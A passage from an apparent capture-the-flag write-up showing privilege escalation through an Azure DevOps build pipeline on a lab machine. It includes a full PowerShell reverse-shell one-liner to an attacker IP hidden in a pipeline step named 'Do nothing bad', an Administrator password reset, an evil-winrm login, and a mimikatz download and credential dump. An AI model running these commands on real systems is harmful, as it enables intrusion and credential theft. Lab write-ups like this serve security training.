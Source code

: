 I can then save and run this script, creating a new pipeline. As it runs, the output is displayed in the web console.
```bash
whoami
nt authority/system
```

### 9. Get system
I make a powershell reverse shell to run through the build pipeline. Because AV is off
```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

steps:
- script: powershell -command "$client = New-Object System.Net.Sockets.TCPClient("10.10.15.53",9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  displayName: 'Do nothing bad'
```
Sadly this doesn't work - I get a "this operation was cancelled" message was no other info. It is possible Azure DevOps is interfering somehow. I can try something a bit simpler and just make a new admin user.
```yaml
steps:
- script: net user Administrator jib1337JIB1337!
  displayName: 'Do nothing bad'
```
When running, this time I get the oh-so-glorious "This command completed successfully." message! Now I can login to the Administrator using WinRM.
```bash
kali@kali:~$ evil-winrm -u Administrator -p jib1337JIB1337! -i 10.10.10.203

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
worker\administrator
```

### Bonus credential dumping
Gonan repeat my mimikatz stuff from before for fun.
```bash
*Evil-WinRM* PS C:\Users\Administrator\Pictures\.temp> wget "http://10.10.15.53:8000/mimikatz.exe" -OutFile "mimikatz.exe"
*Evil-WinRM* PS C:\Users\Administrator\Pictures\.temp> ./mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

```